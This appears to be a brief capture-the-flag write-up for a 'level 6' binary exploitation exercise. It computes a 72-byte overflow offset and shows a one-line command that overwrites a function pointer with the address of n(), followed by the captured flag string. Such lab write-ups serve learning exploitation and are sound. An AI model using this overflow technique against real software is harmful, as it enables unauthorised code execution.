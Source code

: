 # level 6

There is an exec level6, we bring to local data.

## addresses

n()
    08048454

__dest malloc(64) and ppcVar1 malloc(4) so we have an offset of 68
strcpy is called with param_2 + 4 so we have to overflow after 72 bytes

    $ ./level6 $(python -c "print 'a' * 72 + '\x54\x84\x04\x08'")
    f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d